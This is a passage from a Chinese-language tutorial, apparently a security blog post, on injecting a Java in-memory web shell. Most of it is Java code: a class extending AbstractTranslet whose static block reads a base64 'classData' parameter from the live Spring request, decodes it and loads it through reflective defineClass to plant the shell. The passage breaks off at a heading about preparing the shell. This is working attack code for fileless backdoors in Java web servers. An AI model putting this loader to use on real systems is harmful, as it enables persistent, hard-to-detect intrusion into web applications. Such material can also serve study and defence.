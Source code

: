 动态加载方法，我们可以通过反射的方式从 ClassLoader 里面获取 defineclass 函数用来加载我们从 post 当中获取的内存马字节流

```plain
java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
defineClassMethod.setAccessible(true);
Class cc = (Class) defineClassMethod.invoke(new ClassLoader(){}, classBytes, 0, classBytes.length);
```

二者结合一下我们最终得到了 MyClassLoader 的最终实现。

```plain
public class MyClassLoader extends AbstractTranslet {
    static{
        try{
            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
            Field r = request.getClass().getDeclaredField("request");
            r.setAccessible(true);
            //从 post 请求体里面拿到内存马的 base64 字符串
            String classData=request.getParameter("classData");
            System.out.println(classData+"\n");
            //解码内存马的 base64 字符串，得到内存马的字节流
            byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(classData);
            //动态类加载内存马
            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
            defineClassMethod.setAccessible(true);
            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);
            //触发内存马注入
            cc.newInstance();
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
```

上面的的话对内存马字节流的传输进行了解码处理，所以在传输的时候我们也需要对内存马的字节流进行编码

##### 内存马准备
